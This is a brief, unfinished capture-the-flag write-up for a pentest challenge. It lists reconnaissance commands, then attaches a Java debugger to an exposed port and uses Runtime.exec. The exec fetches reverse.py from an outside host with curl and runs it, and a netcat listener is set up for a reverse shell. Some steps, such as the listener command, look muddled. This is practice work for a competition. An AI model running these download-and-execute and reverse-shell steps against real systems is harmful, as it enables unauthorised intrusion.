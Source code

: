 # Leet Computer: Pentest 19

### One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.

Still working on it... just dropping commands

1. ```nmap -Pn 10.40.3.230``` This is the ip that pinged us on the Discovery challenge.
   ```port 22 open ssh```
   ```port 8100 open http```
2. ```whatweb 10.40.3.230/8100``` Running Apache & PHP
3. ```telnet 10.40.3.230 8100``` Allows connection
4. *Install jdb*
5. ```jdb attach 10.40.3.230:8100```
6. ```stop in org.apache.logging.log4j.core.config.ConfigurationFileWatcher.isModified```
7. ```print new java.lang.Runtime().exec("sh -c $@|sh . curl 172.16.72.203:8888/reverse.py  -o /tmp/reverse.py")```
8. *Setup Netcat listener*
   ```nc -l 10.40.3.230```
9. ```print new java.lang.Runtime().exec("python3 /tmp/reverse.py")```


**NOTE:** I did not finish this challenge before the competition ended. However, one of my teammates was able to solve before the competition ended.

Here is a write-up for this challenge by Łukasz Szymański: [Leet Computer](https://szymanski.ninja/en/ctfwriteups/2021/norzhctf2021/leet-computer/)
